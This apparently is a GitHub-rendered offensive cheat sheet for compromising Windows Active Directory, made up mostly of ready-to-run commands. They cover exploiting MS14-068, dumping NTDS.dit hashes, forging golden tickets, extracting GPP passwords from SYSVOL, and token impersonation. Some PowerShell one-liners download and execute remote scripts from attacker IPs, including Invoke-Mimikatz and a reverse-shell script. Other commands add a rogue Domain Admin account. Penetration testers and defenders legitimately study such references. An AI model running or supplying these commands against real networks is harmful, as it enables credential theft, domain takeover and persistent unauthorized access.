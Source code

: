 # Active Directory Attacks

## Most common paths to AD compromise
  * MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)
    ```bash
    Exploit Python: https://www.exploit-db.com/exploits/35474/
    Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

    git clone https://github.com/bidord/pykek
    python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
    python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
    mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
    ```
  * MS17-010 (Eternal Blue - Local Admin)
    ```c
    nmap -Pn -p445 — open — max-hostgroup 3 — script smb-vuln-ms17–010 <ip_netblock>
    ```
  * Unconstrained Delegation (incl. pass-the-ticket)
  * OverPass-the-Hash (Making the most of NTLM password hashes)
  * GPO - Pivoting with Local Admin & Passwords in SYSVOL
    ```c
    findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

    or

    Metasploit: scanner/smb/smb_enumshares
    Metasploit: windows/gather/enumshares
    Metasploit: windows/gather/credentials/gpp


    /!\ GPO Priorization : Organization Unit > Domain > Site > Local
    List all GPO for a domain :
    Get-GPO -domaine DOMAIN.COM -all
    Get-GPOReport -all -reporttype xml --all

    or

    Powersploit:
    Get-NetGPO
    Get-NetGPOGroup
    ```
  * Dangerous Built-in Groups Usage

  * Dumping AD Domain Credentials (%SystemRoot%\NTDS\Ntds.dit)
  ```c
  C:\>ntdsutil
  ntdsutil: activate instance ntds
  ntdsutil: ifm
  ifm: create full c:\pentest
  ifm: quit
  ntdsutil: quit

  or

  vssadmin create shadow /for=C :
  Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit

  then you need to use secretsdump to extract the hashes
  secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL


  or

  Metasploit : windows/gather/credentials/domain_hashdump

  or

  PowerSploit : Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
  ```
  * Golden Tickets    
  Mimikatz version
  ```c
  Get info - Mimikatz
  lsadump::dcsync /user:krbtgt
  lsadump::lsa /inject /name:krbtgt

  Forge a Golden ticket - Mimikatz
  kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
  kerberos::tgt
  ```

  Meterpreter version
  ```c
  Get info - Meterpreter(kiwi)
  dcsync_ntlm krbtgt
  dcsync krbtgt

  Forge a Golden ticket - Meterpreter
  load kiwi
  golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
  golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
  kerberos_ticket_purge
  kerberos_ticket_use /root/Downloads/pentestlabuser.tck
  kerberos_ticket_list
  ```
  * Kerberoast
    ```c
    https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
    https://room362.com/post/2016/kerberoast-pt1/
    ```
  * Silver Tickets
  * Trust Tickets


## Tools
  * [Impacket](https://github.com/CoreSecurity/impacket)
  * [Responder](https://github.com/SpiderLabs/Responder)
  * [Mimikatz](https://github.com/gentilkiwi/mimikatz)
  * [Ranger](https://github.com/funkandwagnalls/ranger)
  * [BloodHound](https://github.com/BloodHoundAD/BloodHound)
  * [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
  * [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
  * [PowerSploit](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon)
  ```
  powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
  powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
  ```


## Privilege Escalation
### PrivEsc - Token Impersonation (RottenPotato)
Binary available at : https://github.com/foxglovesec/RottenPotato      
Binary available at : https://github.com/breenmachine/RottenPotatoNG   
```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


### PrivEsc - MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```


## Local Admin to Domain Admin
```
net user hacker2 hacker123 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```


## Thanks to
 * [https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html](https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html)
 * [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
 * [Road to DC](https://steemit.com/infosec/@austinhudson/road-to-dc-part-1)
 * [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
 * [Golden ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)
